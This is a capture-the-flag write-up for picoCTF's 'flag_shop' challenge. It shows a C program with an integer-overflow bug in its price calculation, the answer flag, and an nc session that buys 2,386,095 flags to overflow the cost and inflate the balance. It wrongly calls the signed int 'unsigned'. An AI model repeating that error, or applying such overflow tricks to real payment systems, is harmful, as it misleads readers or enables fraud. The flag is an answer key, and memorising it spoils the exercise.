

# General Skills - flag_shop (300 points)

## Challenge

*There's a flag shop selling stuff, can you buy a flag? Source. Connect with nc 2019shell1.picoctf.com 60851.*



```C
#include <stdio.h>
#include <stdlib.h>
int main()
{
    setbuf(stdout, NULL);
    int con;
    con = 0;
    int account_balance = 1100;
    while(con == 0){

        printf("Welcome to the flag exchange\n");
        printf("We sell flags\n");

        printf("\n1. Check Account Balance\n");
        printf("\n2. Buy Flags\n");
        printf("\n3. Exit\n");
        int menu;
        printf("\n Enter a menu selection\n");
        fflush(stdin);
        scanf("%d", &menu);
        if(menu == 1){
            printf("\n\n\n Balance: %d \n\n\n", account_balance);
        }
        else if(menu == 2){
            printf("Currently for sale\n");
            printf("1. Defintely not the flag Flag\n");
            printf("2. 1337 Flag\n");
            int auction_choice;
            fflush(stdin);
            scanf("%d", &auction_choice);
            if(auction_choice == 1){
                printf("These knockoff Flags cost 900 each, enter desired quantity\n");

                int number_flags = 0;
                fflush(stdin);
                scanf("%d", &number_flags);
                if(number_flags > 0){
                    int total_cost = 0;
                    total_cost = 900*number_flags;
                    printf("\nThe final cost is: %d\n", total_cost);
                    if(total_cost <= account_balance){
                        account_balance = account_balance - total_cost;
                        printf("\nYour current balance after transaction: %d\n\n", account_balance);
                    }
                    else{
                        printf("Not enough funds to complete purchase\n");
                    }
                }
            }
            else if(auction_choice == 2){
                printf("1337 flags cost 100000 dollars, and we only have 1 in stock\n");
                printf("Enter 1 to buy one");
                int bid = 0;
                fflush(stdin);
                scanf("%d", &bid);

                if(bid == 1){
                    if(account_balance > 100000){
                        FILE *f = fopen("flag.txt", "r");
                        if(f == NULL){

                            printf("flag not found: please run this on the server\n");
                            exit(0);
                        }
                        char buf[64];
                        fgets(buf, 63, f);
                        printf("YOUR FLAG IS: %s\n", buf);
                        }
                    else{
                        printf("\nNot enough funds for transaction\n\n\n");
                    }}
            }
        }
        else{
            con = 1;
        }
    }
    return 0;
}

```

## Flag

picoCTF{m0n3y_bag5_34c9a5f7}

## Walkthrough

Walking through the store, we guess that we have to buy the *1337 flags*. Guess what, we don't have enough money for this...

Looking at the store source, there is an interesting thing here :

```C
int total_cost = 0; (4 bytes / signed)
total_cost = 900*number_flags;
```

*total_cost* is defined as an *int*, i.e. a 4 bytes unsigned integer. Its value is linked to a user input: the number of flags to buy. So we can perform a nice unsigned interger overflow here, to get a negative value and so more money :)

Unsigned int values range from -2,147,483,648 to 2,147,483,647. Divided by 900, we just have to buy more than 2,386,092‬ flags to produce an integer overflow so that `account_balance - total_cost` does not overflow (else our overflow is going to cause another overflow and a negative balance...).

Let's try with 2,386,095 flags :

```bash
root@kali:~# nc 2019shell1.picoctf.com 60851
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
2386095

The final cost is: -2147481796

Your current balance after transaction: 2147482896
```

I'm rich !, now the flag :

```bash
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_34c9a5f7}
```
